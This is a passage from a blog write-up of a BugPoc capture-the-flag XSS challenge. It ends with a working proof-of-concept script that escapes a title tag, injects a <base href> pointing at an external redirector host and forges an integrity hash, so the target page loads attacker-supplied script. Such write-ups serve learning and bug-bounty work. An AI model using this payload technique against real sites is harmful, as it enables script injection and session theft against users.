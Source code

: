 Finally, adjusting our PoC code to include our new flexible redirector URL and the hash of our new file gives us:

{% highlight html %}
<script>
window.name = 'iframe';
window.location = 'https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3Cbase%20href=%22https://l7u6e2pccty7.redir.bugpoc.ninja%22/%3E%3Cinput%20id%3d%22fileIntegrity%22%20value%3d%22QkIPs1Inueee8IH%2bHXpScbWfI0zPgWJvCB9LGWZH/Wc%3d%22%2f%3E';
</script>
{% endhighlight %}

Boom! We have a working XSS!

![Winner!](/assets/2020-11-10-bugpoc-xss/chicken-dinner.png)

We can [host our PoC](https://bugpoc.com/testers/front-end) on BugPoc too, to make things easier to reproduce when submitting our report.

Here's the one I created:

Link: [https://bugpoc.com/poc#bp-kvVxxXyn](https://bugpoc.com/poc#bp-kvVxxXyn)
Password: `InsIPIdPug75`

You'll need to be running Chrome in order for it to work.

![Success](/assets/2020-11-10-bugpoc-xss/success.gif)

Thanks to [BugPoc](https://bugpoc.com) for a great challenge (and for some useful tools too.)

I'm looking forward to the next one!

